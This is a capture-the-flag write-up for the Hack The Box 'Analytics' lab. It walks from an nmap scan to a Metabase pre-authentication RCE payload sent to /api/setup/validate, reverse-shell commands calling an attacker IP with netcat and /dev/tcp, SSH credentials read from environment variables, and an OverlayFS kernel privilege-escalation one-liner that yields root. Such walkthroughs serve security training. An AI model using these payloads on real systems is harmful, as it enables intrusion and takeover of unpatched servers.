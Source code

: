 # This is a writeup for the Analytics CTF from htb labs

## Recon

#### Nmap scan "the fastest and most effective scan for CTF labs"

```
sudo nmap 10.10.11.233 --min-rate 3000 -sS -sV -sC -Pn -T5 


Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-14 11:04 BST
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

<!-- we got two open ports 22 for ssh and 80 for a webserver labeled "Analytical" -->

## Enum

#### this page "http://data.analytical.htb/auth/login?redirect=%2F" seems to have a vuln of severe RCE at  metabase version 0.46.6

###### when we make an inital request to this page 

![Screenshot at 2023-10-14 11-23-13](https://github.com/shanksbeard/Analytics-HTB-writeup/assets/147916074/7e627aa3-029b-405b-a996-3a3b01472c88)

<!--  it gave us a setup-token that enables us to  post our RCE payload to the api "/api/setup/validate" -->

## Exploit 1 : RCE

#### Start a netcat listener 

```nc -lnvp 4444``` <!-- or any port of your choice --> 

### Here is the payload request made to this api /api/setup/validate 
```
POST /api/setup/validate HTTP/1.1
Host: 10.10.11.233 
Content-Type: application/json

{
 "token": "put the setup token here ",
 "details": {
  "is_on_demand": false,
  "is_full_sync": false,
  "is_sample": false,
  "cache_ttl": null,
  "refingerprint": false,
  "auto_run_queries": true,
  "schedules": {},
  "details": {
   "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(Put your RCE revshell payload just here)\n$$--=x",
   "advanced-options": false,
   "ssl": true
  },
  "name": "test",
  "engine": "h2"
 }
}
```

#### for me it seems this basic busybox revshell payload to work just fine

```busybox nc <Attacker IP add> 4444 -e sh ```  <!-- remember you can put any unstandard  port. --> 

###### we could do this trick to stabilize the revshell and also good  to replace python pty command
```
echo 'sh -i >& /dev/tcp/<Attacker IP add>/4445 0>&1' > /tmp/a.sh
bash /tmp/a.sh
```
#### after some basic enumeration got the /bin/ash users as well some ssh creds at env variables 
```
root:x:0:0:root:/root:/bin/ash
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
META_USER=metalytics
META_PASS=*************** # to get the password practice what we have done.
```
-------------------------------------------------------------------------------------------------------------------------
```
ssh metalytics@analytical.htb 
metalytics@analytical.htb's password: 
metalytics@analytics:~$ 
```
###### Great, well done !!!

###### the root seems to be active 

```
root:x:0:0:root:/root:/bin/bash
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
```
## Privesc:

<!-- the kernel version seems to be vuln "6.2.0" to these OverlayFS CVEs "CVE-2023-2640 CVE-2023-32629 " -->
```
# here is a little hint from the creators "overlay on /var/lib/docker/overlay2/957463a5867e5" thank you htb labs team <3
# you can check out the vuln in fully here "https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability"
```

### here is the payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## just put it as command line in the shell and 
```
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
## boom you are the root !!! you made it.
